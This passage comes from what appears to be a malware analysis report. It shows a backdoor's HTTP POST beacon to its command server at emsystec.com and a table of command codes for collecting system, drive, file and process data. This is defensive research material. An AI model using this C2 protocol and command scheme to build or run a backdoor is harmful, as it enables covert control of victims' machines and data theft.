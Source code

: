 Structure of ‘jsessid’ parameter
The following HTTP request shows the malware attempting to connect to the C2 with the request type ’60d49d98′ and a randomly generated cookie value.





 POST /include/inc.asp HTTP/1.1
 Content-Type: application/x-www-form-urlencoded
 User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3)
 Host: emsystec.com
 Content-Length: 80
 Cache-Control: no-cache

 jsessid=60d49d980163be8f00019f91&cookie=29f23f917ab01aa8lJ3UYA==2517757b7dfb47f1




12345678

 POST /include/inc.asp HTTP/1.1 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3) Host: emsystec.com Content-Length: 80 Cache-Control: no-cache  jsessid=60d49d980163be8f00019f91&cookie=29f23f917ab01aa8lJ3UYA==2517757b7dfb47f1




Depending on the response from the C2, the malware performs its instructed backdoor task. It carries various functionalities to gather system information and control the victim machine.



Command
Description


0x60D49D97
Set time configuration with the current time interval (default is 10) value


0x60D49D9F
Set time configuration with delivered data from C2 server


0x60D49DA0
Gather system information, such as IP address, computer name, OS version, CPU architecture


0x60D49DA1
Collect drive information including type and free size


0x60D49DA2
Enumerate files (with file name, size, time)


0x60D49DA3
Enumerate processes
